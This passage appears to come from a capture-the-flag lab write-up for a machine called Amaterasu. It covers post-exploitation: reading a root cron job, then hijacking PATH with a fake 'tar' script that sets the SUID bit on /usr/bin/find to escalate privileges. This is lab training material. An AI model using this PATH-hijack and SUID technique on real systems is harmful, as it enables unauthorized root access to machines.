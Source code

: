 ## 4. Post-Exploitation

There is a [backup-flask.sh](http://backup-flask.sh/) task running every minute.

```bash
cat /etc/crontab 
cat /usr/local/bin/backup-flas.sh
```

![Untitled](../assets/img/pg/Amaterasu/Untitled%2011.png)

[`backup-flask.sh`](http://backup-flask.sh/)

```bash
#!/bin/sh
export PATH="/home/alfredo/restapi:$PATH"
cd /home/alfredo/restapi
tar czf /tmp/flask.tar.gz *
```

The script exports /home/alfredo/restapi to the PATH and then compresses the file contents using tar.

### Privilege Escalation

- Find (with SUID) will be used to escalate privileges.
- I will use the command /usr/bin/find and save it in a 'tar' file.

```bash
nano tar
chmod +x tar
```

`tar`

```bash
#!/bin/bash 

chmod u+s /usr/bin/find #because the where is the "find"
```
